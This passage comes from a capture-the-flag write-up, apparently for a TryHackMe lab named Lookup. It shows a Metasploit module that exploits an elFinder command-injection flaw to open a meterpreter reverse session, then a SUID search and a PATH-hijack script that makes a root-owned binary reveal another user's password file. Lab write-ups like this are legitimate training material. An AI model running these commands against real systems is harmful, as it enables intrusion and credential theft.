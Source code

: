 **Now, Metasploit Way**

Using Metasploit is much easier since it already has an exploit module for this vulnerability, which provides a fully functional meterpreter session.

```bash
msf6> use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
msf6> set RHOSTS files.lookup.thm
msf6> set LHOST tun0
msf6> run

meterpreter> shell
```

# Privilege Escalation

After gaining initial access as `www-data`, I navigated to `/home` and found a user named `think`. This user's directory contained two interesting files: `user.txt` (the flag) and `.passwords`, which likely contains the password for `think` user. However, I couldn't access them as I wasn’t logged in as `think`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412041788/db8a1dfe-1177-4492-83ab-4279d3cc3726.png align="left")

**Find SUID Executables for Privilege Escalation**

```bash
find / -perm -4000 2>/dev/null
```

* I found an unknown binary owned by root with the SUID bit set: `/usr/sbin/pwm`.
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412057097/ebb5b590-c010-41f5-83bb-e5567174cfd7.png align="left")

## Getting User Shell

Executing `/usr/sbin/pwm` reveals that it runs the `id` command to impersonate the user and read the `.passwords` file in the user's home directory.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412076090/19d94f31-ab6d-4b1d-8244-689f56410013.png align="left")

Simple `ltrace` and `strace` didn’t reveal anything useful, so I assumed the `pwm` binary doesn’t use an absolute path for the `id` command. This means we can perform a *Path Hijack*, where we create our own `id` command and add it to the `PATH` variable. This way, when `pwm` executes, it will run our custom `id` command instead of the real one.

Our custom `id` command will return the `id` of the `think` user, and `pwm` will print the `.passwords` file of the returned user ID.

```bash
# Create the `id` command under /tmp/id
cat > /tmp/id << EOF
#!/bin/bash
echo '$(id think)'
EOF

# Give executable permission to /tmp/id
chmod +x /tmp/id

# Add /tmp/ to the `PATH` variable
export PATH=/tmp:$PATH

# Execute `pwm` to get the `/home/think/.passwords` file
/usr/sbin/pwm
```
